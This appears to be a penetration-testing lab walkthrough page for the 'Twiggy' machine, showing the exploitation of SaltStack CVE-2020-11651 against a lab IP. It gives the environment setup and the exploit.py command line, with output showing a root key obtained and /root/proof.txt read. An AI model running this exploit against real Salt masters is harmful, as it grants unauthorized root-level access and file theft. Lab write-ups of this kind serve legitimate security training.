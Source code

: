 
**Target IP:** `192.168.116.62`  
**Vulnerability Exploited:** `CVE-2020-11651`  
**Tool Used:** `python3 exploit.py`

---

### Primary Exploit Execution

```python
python3 -m venv salt_exploit_env  
┌──(kali㉿kali)-[~/offsec]  
└─$ source salt_exploit_env/bin/activate  
┌──(salt_exploit_env)─(kali㉿kali)-[~/offsec]  
└─$ pip install salt  
Collecting salt  
  Downloading salt-3007.1.tar.gz (19.4 MB)  
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 19.4/19.4 MB 13.9 MB/s eta 0:00:00  
...snip...
```


1. **Read Proof File:** **Command:**
```bash
python3 exploit.py --master 192.168.154.62 -r /root/proof.txt   
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.  
/home/kali/offsec/salt_exploit_env/lib/python3.12/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.  
  warn_until(  
[+] Checking salt-master (192.168.154.62:4506) status... ONLINE  
[+] Checking if vulnerable to CVE-2020-11651... YES  
[*] root key obtained: yRJf6KcMheGt6fA3HMtk2MP7A+no97bLn63sq9i4VDdZsNsCGRxgP6SPt2vbqwVd9clfjwc5+o8=  
[+] Attemping to read /root/proof.txt from 192.168.154.62  
20a9a9673e4bfe7f435b6ab770a56f1e
```

Proceed to [[03. Twiggy - Privilege Escalation]]



